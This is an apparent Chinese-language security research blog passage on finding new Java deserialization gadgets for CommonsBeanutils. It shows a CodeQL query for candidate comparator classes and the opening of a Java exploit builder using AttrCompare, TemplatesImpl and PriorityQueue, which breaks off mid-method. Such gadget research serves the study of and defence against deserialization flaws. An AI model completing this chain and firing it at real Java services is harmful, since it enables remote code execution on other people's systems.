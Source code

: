 ```ql
from Class clazz 
where isExpectClass(clazz)
select clazz 
```

查询结果如图

![](./img/bc7aca6e3dc14972b393926d5f9dfb76.png)

7 个类, p牛找的替代类`CaseInsensitiveComparator`也在其中, 说明这个查询结果还算是可靠的, 剩下就是挨个分析是否可用并构造新的
gadget 即可。

### 0x05 新的 CommonsBeanutils ?

#### AttrCompare

第1个类：AttrCompare


最终构造出的 Gadget Chain

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xml.internal.security.c14n.helper.AttrCompare;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CommonsBeanutils_JDK_AttrCompare {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void getFieldValue(Object obj, String fieldName) throws NoSuchFieldException, IllegalAccessException {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        System.out.println(field.get(obj));
        System.out.println(field.get(obj).getClass().getName());
    }

    public static byte[] getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
```